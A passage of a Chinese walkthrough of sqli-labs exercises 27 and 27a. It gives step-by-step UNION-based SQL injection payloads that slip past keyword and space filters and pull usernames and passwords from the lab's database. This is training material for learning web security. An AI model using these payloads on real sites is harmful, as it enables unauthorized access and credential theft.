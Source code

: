 ##### 输出点：

payload:`?id=0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,2,3/*%0a*/||/*%0a*/'1`回显如下。所以1,2为输出点(由于环境原因。5.2.17版本可以识别%a0，但是这题使用改版本)

![image-20201115153626846](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114738.png)

##### 注入方式

使用/*%a0\*/替代空格，|| 或oorr来替换or。再使用union来联合注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=0'/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,2,3||'1`
- 获取数据库`payload:?id=0'/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,database(),3or'`
- 爆数据表`payload:?id=0'/*%0a*/UNion/*%0a*/sEleCt/*%0a*/1,group_concat(table_name),3/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema=database()or'1`
- 爆users表的数据字段`payload：?id=0'/*%0a*/uNIon/*%0a*/sELect/*%0a*/1,group_concat(column_name),3/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_name='users'or'1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=0'/*%0a*/uniOn/*%0a*/sELect/*%0a*/1,group_concat(username,'~',password),3/*%0a*/from/*%0a*/users/*%0a*/where'1`username和password中间使用~来分隔

## less-27a

##### 注入类型

该题对单引号，union，select和less-26的过滤的字符做了过滤 对id做的是('id')处理

##### 输入点：

payload:`?id=1"`,回显如下。

![image-20201115191055017](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114739.png)

payload：`?id=1"/*%0a*/||/*%0a*/"1`回显如下。所以对id做了'id'处理。但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where 'id=1' or '1'

![image-20201115153747868](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114737.png)

##### 输出点：

payload:`?id=0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/1,2,3/*%0a*/||/*%0a*/"1`回显如下。所以1,2为输出点(由于环境原因。5.2.17版本可以识别%a0，但是这题使用改版本)

![image-20201115191413576](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114740.png)

##### 注入方式

使用/*%a0\*/替代空格，|| 或oorr来替换or。再使用union来联合注入

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=0"/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,2,3||"1`
- 获取数据库`payload:?id=0"/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,database(),3or"`
- 爆数据表`payload:?id=0"/*%0a*/UNion/*%0a*/sEleCt/*%0a*/1,group_concat(table_name),3/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema=database()or"1`
- 爆users表的数据字段`payload：?id=0"/*%0a*/uNIon/*%0a*/sELect/*%0a*/1,group_concat(column_name),3/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_name='users'or"1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=0"/*%0a*/uniOn/*%0a*/sELect/*%0a*/1,group_concat(username,'~',password),3/*%0a*/from/*%0a*/users/*%0a*/where"1`username和password中间使用~来分隔
